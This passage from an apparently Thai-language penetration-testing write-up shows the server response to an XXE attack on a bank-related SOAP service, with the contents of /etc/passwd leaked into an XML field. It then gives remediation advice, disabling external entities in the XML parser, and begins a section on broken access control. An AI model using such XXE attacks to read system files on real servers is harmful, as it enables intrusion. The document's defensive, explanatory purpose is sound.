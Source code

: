 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Thu, 26 Sep 2019 11:14:01 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: text/xml;charset=UTF-8
Content-Length: 4758
Connection: close

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><MSGResponse xmlns="http://[REDACTED]/webservice" xmlns:ns2="http://[REDACTED]/xsd"><return><ns2:bankCode></ns2:bankCode><ns2:bankName></ns2:bankName><ns2:commercialInvoiceNo></ns2:commercialInvoiceNo><ns2:companyCode>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
systemd-bus-proxy:x:999:997:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:995:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstor-agemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
[...]
\end{lstlisting}

วิธีการแก้ไขคือต้องไม่ให้ XML Parser สามารถ Include ข้อมูลจากภายนอกได้ แต่ถ้าจำเป็นต้องใช้ Feature นี้จริง ๆ ควรกรองข้อมูลก่อน Parse XML ว่าสามารถเรียก External Entity ได้จากไฟล์ไหน หรือ Domain ไหนบ้าง

\subsection{Broken Access Control}

ในหัวข้อนี้ผู้เขียนจะเล่าถึงช่องโหว่ที่เกิดจากการควบคุมสิทธิผู้ใช้งานว่าทำอะไรได้และไม่ได้ไม่ดีพอ ทำให้ผู้ประสงค์ร้ายสามารถเข้าถึงการทำงานและข้อมูลต่าง ๆ ที่ไม่ได้รับอนุญาต เช่น การเข้าถึงข้อมูลของ ผู้ใช้ผู้อื่น การเข้าถึงไฟล์สำคัญของระบบ การแก้ไขข้อมูลของผู้ใช้อื่น ๆ การกระทำคำสั่งของผู้ดูแลระบบโดยใช้สิทธิ์ของผู้ใช้ธรรมดา เป็นต้น

\subsubsection{Unauthenticated access to all resources through direct access}

